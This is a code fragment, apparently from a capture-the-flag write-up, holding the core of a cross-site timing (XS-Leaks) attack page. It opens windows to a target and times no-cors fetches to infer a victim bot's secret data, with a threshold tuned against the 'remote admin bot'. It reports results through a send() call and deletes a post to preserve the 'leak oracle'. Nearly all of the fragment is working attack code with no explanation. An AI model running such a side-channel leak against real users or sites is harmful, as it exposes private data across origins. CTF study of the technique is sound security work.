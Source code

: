 ```html
    async function run(str, resolve) {
    // if the request is not enough, we can send more by opening more window
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30
      setTimeout(async () => {
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
    
  </script>

</body>

</html>
```


